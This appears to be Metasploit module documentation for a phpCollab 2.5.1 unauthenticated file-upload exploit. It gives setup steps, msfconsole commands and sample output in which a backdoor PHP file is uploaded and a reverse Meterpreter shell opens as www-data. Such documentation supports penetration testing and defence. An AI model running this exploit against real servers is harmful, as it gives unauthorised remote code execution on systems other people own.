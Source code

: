 ## Vulnerable Application

This module exploits a file upload vulnerability in phpCollab 2.5.1
which could be abused to allow unauthenticated users to execute arbitrary code
under the context of the web server user.

The exploit has been tested on Ubuntu 16.04.3 64-bit

### Vulnerable Application Installation

You can download the vulnerable application from the [exploit-db page](https://www.exploit-db.com/apps/dda41c5b541d7adc0b50b1fcf3bf7519-phpCollab-v2.5.1.zip).

Follow the install instructions from the phpCollab website:
http://phpcollab.com/documentation/install.htm.

The phpCollab application is only compatible with php5.

## Verification steps

```
msf > use exploit/unix/webapp/phpcollab_upload_exec
msf exploit(phpcollab_upload_exec) > set RHOST [IP Address] 
msf exploit(phpcollab_upload_exec) > set TARGETURI [Installation Directory] 
msf exploit(phpcollab_upload_exec) > exploit 

## Sample Output

[*] Started reverse TCP handler on 192.168.246.129:4444 
[*] Uploading backdoor file: 1.mEgUkeNnxP.php
[+] Backdoor successfully created.
[*] Triggering the exploit...
[*] Sending stage (37543 bytes) to 192.168.246.144
[*] Meterpreter session 1 opened (192.168.246.129:4444 -> 192.168.246.144:49264) at 2017-12-20 15:44:36 -0500
[+] Deleted 1.mEgUkeNnxP.php

meterpreter > getuid
Server username: www-data (33)
meterpreter > pwd
/var/www/html/phpcollab/logos_clients
meterpreter >

```


